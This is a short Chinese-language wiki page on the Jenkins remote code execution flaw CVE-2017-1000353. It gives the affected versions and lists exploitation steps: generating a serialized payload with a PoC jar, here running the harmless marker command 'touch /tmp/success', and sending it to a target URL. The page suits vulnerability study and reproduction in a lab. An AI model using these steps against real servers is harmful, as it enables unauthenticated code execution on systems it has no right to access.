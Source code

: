 ```yaml
---
title: Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）
description: 
published: true
date: 2025-07-05T00:34:09.530Z
tags: 
editor: markdown
dateCreated: 2025-07-05T00:34:09.530Z
---
```


# 漏洞概述
攻击者使用该漏洞可以在被攻击服务器执行任意代码，漏洞利用不需要任何的权限
# 影响范围
Jenkins <=2.56
Jenkins LTS <= 2.46.1


# 漏洞利用
1、下载CVE-2017-1000353-1.1-SNAPSHOT-all.jar，这是生成POC的工具
执行下面命令，生成字节码文件
```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"

# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

2、将刚才生成的字节码文件发送给目标
```python
python CVE-2017-1000353.py http://your-ip:8080 jenkins_poc.ser

```